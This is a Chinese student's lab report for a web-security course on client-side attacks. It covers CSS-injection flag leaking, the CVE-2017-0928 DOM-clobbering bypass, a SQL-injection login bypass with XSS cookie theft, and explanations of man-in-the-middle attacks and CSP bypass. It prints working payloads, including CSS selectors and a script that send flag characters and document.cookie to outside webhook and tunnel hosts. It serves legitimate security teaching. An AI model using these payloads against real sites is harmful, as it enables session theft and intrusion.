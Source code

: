 # Web Lab 2：用户侧攻击
**赖梓桐 3240106161**

---

# Task 1: HTML Parser (15 分 )
1.  这题要求以层序遍历的方式解析一个html文件，其实主要是考察对于解析工具的使用。
2.  我这里使用了Beautiful Soup，lxml，以及队列来快速处理层序遍历。
3.  先用队列形式，最后用逗号join成字符串之后再用题目给的代码，用hashlib转md5。
4.  代码提交为parser.py。
5.  flag:`AAA{0e6451a90a50ea7a8b1719b7dbcf6dac}`

---

# Task 2: Show me the secret (20 分 )
1.  这道题是一个css注入的本地实现，先解释一下题目给的情景。
    1.  这里使用了flask框架，~~我们知道flask框架的debug=true会发生很奇怪的事~~。
    2.  框架内规定了三个路由：index victim 和 inject，后面两个给了html，随便补了一个index。
    3.  观察这个victim页面，首先需要127.0.0.1才能访问，渲染的时候会把victim.html里面input块的value替换成真正的flag；此外还有一个css渲染的位置，直接读取本地的custom.css。
    4.  这个inject页面有一个post提交的入口，会把提交的内容直接保存到custom.css，那这就是注入点的位置了。
    5.  所以管理员每次登录`/victim`的时候都会渲染一次html，然后调用css里的代码，这样就能类似布尔盲注的一位一位读出flag。
2.  但可惜我没有服务器，内网穿透有点麻烦，所以这里我是用了webhook开了一个公网ip给我用，在payload里面`background-img`里面就放上这个webhook的url，就能收到victim发来的请求。
3.  既然flag放在input里面，name = “secret”，所以我尝试模仿ppt构造如下的语句。
4.  `input[name="secret"][value^="A"] { background-image: url("https://webhook.site/7aa20480-9424-4214-bb23-99ffe7e0a1d/?data=A"); }`
5.  但是发现这个语句很难向我的webhook发送请求，极少数情况有成功过，belike:
    ![Webhook收到的请求](c1.png)
6.  原因可能是出在这个hidden块，搜索结果是：现代主流浏览器（如 Chrome、Firefox）出于性能和安全优化，通常不会为一个 `type="hidden"` 的输入框或任何被设置为 `display: none;` 的元素加载 `background-image`。
7.  所以我换了一种注入方法，是使用了`has()`块，这是一个父选择器，语法类似`body:has(input[name="secret"][value^="A"])`，意思是选择body元素，前提是内部包含了一个name 是 secret的且第一位为A的input元素，然后我们就可以给这个body块“加背景”（其实就是注入我们的url）。
8.  具体语法如下：
9.  `body:has(input[name="secret"][value^="A"]) {background-image: url(https://webhook.site/7aa20480-9424-4214-bb23-99ffe7e0a1d8/?found=A);}`
10. OK！这个payload百试百灵。
    ![新payload成功](c4.png)
11. 本地测试的具体流程是：inject页面注入payload，进victim页面刷新浏览器，然后就可以在webhook的统计页面看到我们的请求啦！
12. 这样就确认了前三位是AAA，同理，接下来尝试后面的就可以拿到整个flag。
13. 既然这样就可以开始写脚本了,既然本地不好模拟浏览器的渲染css，那就主要体现一下攻击的过程。
14. 由于我使用的是webhook的监听，所以我这里的操作是打开脚本，然后自动发送payload，然后进入victim页面刷新一下，然后等待webhook收到，再在对话框敲入刚收到的，之后继续这个过程。
15. 看一下custom.css：
    ![custom.css文件内容](c6.png)
16. 所以交互的过程就长这样：
    ![脚本交互过程](c3.png)
17. 在webhook里面长这样：
    ![Webhook中收到的请求](c5.png)
18. 代码提交为task2.py。

---

# Task 3: node.\_sanitized (30 分 )
搜索并简要解释 CVE-2017-0928 的原理
1.  回顾一下DOM Clobbering，这是一种前端攻击技巧，他是建立在一个特性上，即：当你在 HTML 中创建带有 id 或 name 属性的元素时，浏览器会自动在 `window` 或 `document` 对象上创建同名的全局 JavaScript 变量，其值指向该 DOM 元素。
2.  比如说ppt里面那个`AAA 喵~`的代码就是DOM操作，先用`getElementById`选择id=target的html元素，然后再新建`<span>`的内容修改target。
3.  DOM Clobbering就是基于某些 HTML 元素的 `id` 或 `name` 属性会自动在 `window` 对象上创建同名的全局变量，通过 `id` 或 `name` 属性来“篡改”或“覆盖”应用程序中已经存在的 JavaScript 全局变量或对象属性。这会导致程序的逻辑被意外改变，从而绕过安全限制或执行非预期的操作。
4.  CVE-2017-0928受影响对象是一个名为 `html-janitor` 的 JavaScript 库，这是一个html的过滤器，处理一些可能的恶意注入的代码来保持html的纯净，比如移除`<script>`之类的。
5.  那么这个`html-janitor`在在清理 HTML 时，会遍历 DOM 树的每一个节点，如果一个节点已经被处理过了，就给它打上一个`node._sanitized = true`的标记，下次再遇到就直接跳过。
6.  但是，`node._sanitized`只是一个普通的js属性，可以通过 DOM Clobbering 被覆盖。
7.  所以攻击者只需要在构造的html里面让 `if (node._sanitized)` 这个判断条件意外地为 `true` 就可以了，攻击的核心如下：
    1.  Payload:`<form><object name="_sanitized"></object></form>`
    2.  html-janitor开始处理这个html代码的时候，先访问到form元素，此时`node`指向这个form，开始执行`if (node._sanitized)` 的判断。
    3.  由于`node`是`<form>`元素，所以就起到了DOM Clobbering的效果，即`node._sanitized` 实际上是在访问 `<form>` 元素的一个名为`_sanitized` 的子元素,又正好有一个子元素的 `name` 是 `_sanitized`。
    4.  因此，`node._sanitized` 的值就变成了这个 `<object>` 对象，而对象在判断里是true，就对html-janitor进行了一个绕过，之后只需要在form里面放上我们需要的注入代码就行。

---

# Task 5: XSS 1 (30 分 )
我选的是babyxss

1.  首先进来是一个登录，hint是SQL注入，那么直接尝试奇妙小语句注入直接登录，尝试发现账号密码都设置`'OR(1=1)--|`可以成功。
    ![SQL注入登录成功](x1.png)
2.  这里有一个对话框，大概是xss注入的位置，直接尝试注入script，发现这个会插入管理员页面的html，管理员会在后台查看，所以尝试能不能用这个拿到管理员的cookies。
3.  这里我也采用了spolar内网穿透的形式，开放了8081作为监听的端口。此外发现本页面使用注入语句限制80个字符。
4.  使用的注入语句如下：`<script>fetch('http://763f1ec8.r27.cpolar.top/?c='+ document.cookie);</script>`，然后就美美拿到管理员的cookies。
    ![获取到管理员Cookie](x2.png)
5.  使用管理员的cookies刷新页面发现果然成为admin，但是其他的没有任何变化，根据hint猜测flag在admin.php页面，发现提示限制127.0.0.1的IP才能登录。
6.  所以尝试使用Burpsuite修改请求头，使用了`x-forwarded-for`等几个请求头添加`127.0.0.1`，发现全部失败，所以换一个思路。
7.  猜测这道题背后是一个自动化程序自动处理提交的页面，那这个程序的运行肯定IP是127.0.0.1，所以尝试利用这个程序帮我们得到这个admin.php页面的内容试试。
8.  我尝试了使用fetch，但是长度太长了，远远超过80的限制，所以根据课上说的应该是把攻击的文件放在本地，然后留下地址让对方读取。代码不是很会写，直接求助ai。
    ![AI生成的Python代码](x3.png)
    ![AI生成的JavaScript代码](x4.png)
9.  ai给的代码能完成这个任务，最终得到flag:`AAA{babyxss_0aa1ZnpBIEaJDpDHnzYK}`
    ![成功获取Flag](x5.png)
10. 代码提交为8081.py 和x.js。

---

# Task 7: 拓展 (20 分 )
1.  自行搜索并学习中间人攻击, 解释为什么我们要避免连接公共 Wifi ( 如饭馆 , 咖啡厅 )
    1.  根据维基百科，中间人攻击就是通讯的两端认为他们正在通过一个私密的连接与对方直接对话，事实上整个会话都被攻击者（中间人）完全控制，攻击者可以拦截通讯双方的通话并插入新的内容。
    2.  举一个非对称加密的例子：比如A和B进行通话，而C可以拦截A发给B的公钥，改为发送自己的公钥，也可以拦截B发给A的公钥，这样子在下一次交换的时候，由于A与B都认为这个公钥就是对方的，而利用这个公钥加密信息，导致被C截获，C甚至可以篡改这个信息，并用刚刚得到的公钥再进行加密。
    3.  中间人攻击的技术有很多种，比如ARP欺骗，这一般出现在连接路由器的局域网内，ARP协议是把IP地址翻译成MAC物理地址的协议，攻击者可以通过向用户的设备和路由器发起攻击，进而充当中间人的身份，获得两者沟通的所有信息。
    4.  此外还有DNS欺骗，攻击者可以截获DNS解析请求，比如修改到一个近似的网站上，诱导用户输入隐私信息；WiFi欺骗：在公共场所的类似wifi名字，比如KFC-Free-Wifi和KFC\_Free\_Wifi，如果错连的话，那么数据就会经过攻击者再被转发。
    5.  所以我们就要避免连接公共Wifi，原因之一就是我们无法判断这个wifi是官方提供的安全wifi还是攻击者建立的；此外，免费的公共wifi与设备之间传输的数据往往是未加密的，容易被同一局域网下的用户给捕获。
    6.  一旦被中间人攻击之后，我们的隐私数据就变得透明，攻击者可以轻易获取登录凭证、监控网络活动或者注入恶意内容。
2.  自行搜索并学习课上提到的CSP 策略, 解释为什么 CSP 可以防止 XSS 攻击 , 并构造一个配置不当的 CSP 被绕过的例子 ( 不需要给出代码实现 , 只需要描述 )
    1.  CSP是一个额外的安全层，用于过滤特定攻击比如XSS攻击，以下是可以防止XSS攻击的原因：
        1.  XSS 攻击利用了浏览器对于从服务器所获取的内容的信任,CSP 通过指定有效域,即浏览器认可的可执行脚本的有效来源,让服务器能过滤一些XSS攻击的载体文件，一个 CSP 兼容的浏览器将会仅执行从白名单域获取到的脚本文件，忽略所有的其他脚本，始终不允许执行脚本的站点可以选择全面禁止脚本执行。
        2.  除此之外，服务器还可指明哪种协议允许使用，比如全部指定HTTPS协议。
    2.  一个配置不当的例子：过于宽泛地使用白名单，允许不安全的JSONP端点。
        1.  比如说某个网站使用了`Content-Security-Policy: script-src 'self' https://trusted-web.com`, 然后这个`trusted-src`网站有一个提供JSONP服务的API端点，这里会创建一个 `<script>` 标签来加载一个远程URL，这个url会返回一段json数据：`fun({"data":"value"})`。
        2.  所以，如果这个api没有经过严格的过滤，攻击者就会在这里注入js代码，比如：
        3.  `<script src="https://trusted-web.com/api/data?callback=alert(document.cookie)//"></script>`
        4.  由于`trusted-web`是被允许的，那么浏览器就会往这里发请求，返回callback参数的值:
        5.  `alert(document.cookie)//({"data": "value"})`那么这里的数据就被注释了，而前面的参数就成了js代码被执行，可以窃取cookie。
        6.  因此，尽量避免使用过于宽泛的域名作为白名单，应指定到具体的脚本路径。